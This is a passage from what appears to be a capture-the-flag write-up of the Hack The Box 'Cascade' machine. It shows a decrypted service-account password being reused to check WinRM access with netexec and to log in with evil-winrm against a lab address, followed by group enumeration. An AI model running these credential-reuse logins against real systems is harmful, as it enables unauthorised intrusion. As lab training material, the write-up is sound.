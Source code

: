 Putting the acquired information on [CyberChef](https://gchq.github.io/CyberChef/) allows us to decipher the string (Figure 19).

<figure><img src="../../.gitbook/assets/casc_cyberchef.png" alt=""><figcaption><p>Figure 19: Using CyberChef to decrypt the password.</p></figcaption></figure>

The `arksvc` account has WinRM access, so we can log into the box and enumerate its group memberships (Figure 20).

```bash
# check WinRM access
nxc winrm 10.10.10.182 -u arksvc -p arksvc_pass
# log into the box
evil-winrm -i 10.10.10.182 -u arksvc -p $(cat arksvc_pass)
# list groups
whoami /groups
```

<figure><img src="../../.gitbook/assets/casc_arksvc_groups.png" alt=""><figcaption><p>Figure 20: Checking WinRM access and, finally, logging into the box!</p></figcaption></figure>
